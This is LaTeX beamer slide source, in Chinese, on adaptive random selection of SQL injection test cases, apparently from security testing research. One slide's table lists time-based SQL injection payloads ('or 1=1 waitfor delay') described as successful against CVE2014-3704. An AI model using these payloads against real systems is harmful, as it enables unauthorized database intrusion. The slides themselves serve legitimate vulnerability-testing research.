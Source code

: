 \documentclass{beamer}
\begin{document}
\begin{CJK*}{UTF8}{}
\begin{frame}
\end{frame}

\section{自适应随机选择方法}
\begin{frame}
\frametitle{}
$$Adaptive~ Random $$ $$Method~ Based ~Selection$$

\end{frame}

\begin{frame}
\frametitle{SQLi有效测试用例分布}
~~~~能够触发SQLi漏洞的测试用例往往都具有很高的字串相似度。即从字串结构的角度去观察，有效测试用例呈现出聚类的特性。
\begin{table}
\begin{tabular}{l l}
\toprule
\textbf{No.} & \textbf{Successful Test Cases for CVE2014-3704} \\
\midrule
1 & ; or 1 = 1 waitfor delay '0: 0: TIME -- \\
2 & ); or 1 = 1 waitfor delay '0: 0: TIME -- \\
3 & '; or 1 = 1 waitfor delay '0: 0: TIME -- \\
4 & ''; or 1 = 1 waitfor delay '0: 0: TIME -- \\
5 & '); or 1 = 1 waitfor delay '0: 0: TIME -- \\
... & ... \\
\bottomrule
\end{tabular}
\caption{Successful Test Cases for CVE2014-3704}
\end{table}
\end{frame}





\end{CJK*}
\end{document}
